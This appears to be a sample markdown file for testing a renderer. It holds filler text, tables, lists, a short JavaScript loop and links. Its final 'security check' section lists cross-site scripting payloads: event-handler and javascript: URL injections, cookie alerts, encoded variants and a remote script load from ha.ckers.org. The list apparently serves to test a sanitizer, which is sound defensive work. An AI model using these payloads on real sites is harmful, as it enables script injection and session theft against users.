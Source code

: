 # Sample markdown

It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. It's a sample markdown file. 

---

| Tables        | Are           | Cool  |
| ------------- |:-------------:| -----:|
| col 3 is      | right-aligned | $1600 |
| col 2 is      | centered      |   $12 |
| zebra stripes | are neat      |    $1 |

> Reference

fadfasdf

> Reference
> Reference
> Reference

1. x

    1. xx
        - aaa
            fadfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfdafdaf
        - bbb
        - ccc

    2. yy
        adfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfd
        * hoge
            adfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfdafdaffadfadfasfafdaffadfasfdadfafasfd
        * fuga

    3. zz

2. y

3. z

## h2 hogehoge

*italic*

**emphasis**

~~line through~~

### h3 aaa

  list

  * item 1

    `code.js`

    ```js
    const a = 'aaa'
    const n = 3

    function loopLog(str, num) {
      for (let i = 0; i < num; i++) {
        console.log(str)
      }
    }

    loopLog(a, n)
    ```

  * item 2

    * item 2-a
    * item 2-b
    * item 2-c
    * item 2-d

  * item 3

    nothing

  * item 4

### h3 b

bbb

### h3 cc

ccc


## h2 fugafuga

[sample link](https://avatars3.githubusercontent.com/u/10173918?s=460&u=caebae8e7d279c8f0420a0f20d8ca64d6da53853&v=4)

<a href="https://avatars3.githubusercontent.com/u/10173918?s=460&u=caebae8e7d279c8f0420a0f20d8ca64d6da53853&v=4" target="_blank" rel="noopener noreferer">sample link with target blank</a>

<img src="https://avatars3.githubusercontent.com/u/10173918?s=460&u=caebae8e7d279c8f0420a0f20d8ca64d6da53853&v=4" alt="sample image" width="120">

![sample image](https://avatars3.githubusercontent.com/u/10173918?s=460&u=caebae8e7d279c8f0420a0f20d8ca64d6da53853&v=4)


## h2 piyopiyo

youtube movie link with thumbnail

<a href="http://www.youtube.com/watch?feature=player_embedded&v=x1ci-O_7AWA
" target="_blank" rel="noopener noreferer"><img src="http://img.youtube.com/vi/x1ci-O_7AWA/0.jpg"
alt="IMAGE ALT TEXT HERE" width="240" height="180" /></a>


## h2 security check

<a href="https://www.google.com" target="_blank" onclick="alert('xss!aaa')">XSS link</a><br>
<script>alert('xss!')</script>
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<a onmouseover="alert(document.cookie)">xxs link</a>
<a onmouseover=alert(document.cookie)>xxs link</a>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=# onmouseover="alert('xxs')">
<IMG SRC= onmouseover="alert('xxs')">
<IMG onmouseover="alert('xxs')">
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

[Click Me](javascript:alert('Uh oh... xss'))
![Uh oh...]("onerror="alert('XSS'))
![Uh oh...](https://www.example.com/image.png"onload="alert('XSS'))
<b onmousemove="alert('XSS')" onclick="alert('XSS')" onmousehover="alert('XSS')" >XSS!</b>
<b　onmousemove="alert('XSS')" style="padding: 10000px;margin: -10000px;">XSS</b>
<b/onmousemove="alert('XSS')">XSS!</b>
<code lang="py" onmousemove='alert("XSS")'>
print(0)
</code>
<iframe srcdoc="<script>alert('XSS');</script>"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk7PC9zY3JpcHQ+">
